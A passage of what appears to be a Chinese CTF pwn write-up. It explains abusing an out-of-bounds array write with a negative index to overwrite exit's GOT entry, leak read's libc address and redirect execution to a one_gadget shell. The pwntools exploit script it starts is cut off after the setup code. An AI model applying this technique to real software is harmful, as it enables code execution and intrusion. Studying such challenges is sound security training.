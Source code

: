 [![](assets/1701678450-218513fe9c11ae573bd4881298df3ba9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210904-78ba7e12-8eb8-1.png)  
可以看到.got.plt 表离 bss 段的距离比较近，所以考虑用数组越界写来改变.got.plt 表

seat 的地址为 0x4040A0  
exit 的.got.plt 表的地址为 0x404040  
exit 在 seat 的低地址处，正好用负数来覆写  
两者之差为 96，96/16=6，所以用 -6 可以改变 exit  
把 exit 改成\_start 后可以实现程序的无限循环  
同时我们可以知道 exit 与 read 地址相差 16  
read 函数的后三位为 fc0，后三位是不会变的  
所以写入\\xc0 不改变 read 的地址  
然后就可以接收到 read 的真实地址  
one\_gadget libc-2.31.so  
收到后用 one\_gadget 搜索一下可用的 shell  
然后写入 -6 把退出变成执行 og 就行了

exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
```